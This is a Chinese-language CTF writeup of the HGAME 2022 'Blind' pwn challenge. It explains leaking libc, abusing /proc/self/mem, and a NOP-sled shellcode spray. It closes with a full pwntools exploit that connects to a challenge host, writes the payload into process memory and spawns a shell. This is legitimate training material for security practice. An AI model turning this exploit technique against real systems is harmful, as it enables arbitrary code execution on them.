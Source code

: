 ```yaml
---
title: 「PWN」【HGAME 2022 Week2】 Pwn Writeup WP 复现
tags: ['CTF', 'Pwn', 'writeup', 'wp']
date: 2022-10-30
authors: [nova]

---
```


<!--truncate-->

# Blind

>  看题目简介应该是BROP的东西，也发现确实没有附件
>
>  完全没做过BROP的题，试试
>
>  [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

首先先查看一下程序会干什么

![image-20220217140202100](https://cdn.ova.moe/img/image-20220217140202100.png)

可以看到程序首先给出了`write`的地址，但是由于原创我们不知道libc的版本，虽然也可以根据低12位来找到libc版本，但是我们选择`LibcSearcher`会更快一些

这样的话`libc_base`是很容易找到的

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

接着它让我们可以打开一个文件

![image-20220217140449422](https://cdn.ova.moe/img/image-20220217140449422.png)

介绍一下`/proc/`的一些相关内容

## /proc/

Linux系统内核提供了一种通过/proc文件系统，在程序运行时访问内核数据，改变内核设置的机制。/proc是一种伪文件结构，也就是说是仅存在于内存中，不存在于外存中的。/proc中一般比较重要的目录是sys，net和scsi，sys目录是可写的，可以通过它来访问和修改内核的参数。

/proc中还有一些以PID命名（进程号）的进程目录，可以读取对应进程的信息。另外还有一个/self目录，用于记录本进程的信息

### /proc/self/

这就相当于一个软链接，不同的PID访问这个目录进入的实质上是不同的/proc/$(PID)/

#### /proc/self/maps

这个文件用于记录当前进程的内存映射关系，类似于gdb下的vmmap指令，通过读取该文件可以获得内存代码段基地址

#### /proc/self/mem

该文件记录的是进程的内存信息，通过修改该文件相当于直接修改进程的内存。这个文件是可读可写的，但是如果直接读的话则会报错。

需要根据`/proc/self/maps`的映射信息来修改`offset`的`val`

如果我们将一段代码写到`.text`上，则该地址的代码就变成了`disasm(val)`



因此，我们很自然地想到把shellcode写上去，但由于没有源文件，我们也不能清楚究竟程序执行到了什么地方，也就没有办法控制程序准确跳转到`shellcode`开始的地方

## Shellcode Spray 

此时如果我们把地址上下文都改成nop，并在最后添加一段`shellcode`

这样，只要程序执行到了任意`nop`所在的位置，便都可以正常执行`shellcode`

因此，我们不妨修改`__libc_start_main`开始的一大段地址都为`nop`，这能保证程序一定被`nop`覆盖

exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```



